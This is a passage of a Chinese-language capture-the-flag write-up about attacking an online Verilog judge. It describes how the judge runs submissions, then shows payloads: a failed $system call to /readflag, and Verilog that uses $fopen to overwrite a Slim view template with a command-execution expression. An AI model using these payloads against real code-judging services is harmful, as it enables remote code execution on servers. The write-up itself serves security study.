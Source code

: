 ```bash
#!/bin/sh
set -e
cd "$1"
iverilog module.v testbench.v -o judge
vvp judge
```

**执行流程**：
1. 用户提交 Verilog 代码 → Sidekiq 异步处理
2. 创建临时目录，写入 `module.v`（用户代码）和 `testbench.v`（题目测试）
3. 调用 `/app/scripts/judge.sh` 进行编译和仿真
4. 捕获输出并存储结果

### 第四步：题目要求分析

查看数据库中的 testbench：

```sql
SELECT testbench FROM problems WHERE id=1;
```

发现需要实现一个 4 位 2×2 交叉开关模块 `Crossbar_2x2_4bit`：
- 当 `control = 0`：直通模式（out1=in1, out2=in2）
- 当 `control = 1`：交叉模式（out1=in2, out2=in1）

### 第五步：攻击向量探索

#### 尝试 1：直接使用 `$system`

最初尝试在 Verilog 中直接调用系统命令：

```verilog
initial begin
    $system("/readflag give me the flag > /app/app/presentation/public/flag.txt");
end
```

**结果**：失败 ❌
```
module.v:12: Error: System task/function $system() is not defined by any module.
```

**分析**：Icarus Verilog 默认禁用了 `$system` 函数，无法直接执行系统命令。

#### 尝试 2：模板注入攻击

尝试通过 `$fopen` 覆盖 Slim 模板文件：

```verilog
integer fd;
initial begin
    fd = $fopen("/app/app/presentation/views/submissions.slim", "w");
    if (fd) begin
        $fdisplay(fd, "= %x{/readflag give me the flag}");
        $fclose(fd);
    end
end
```
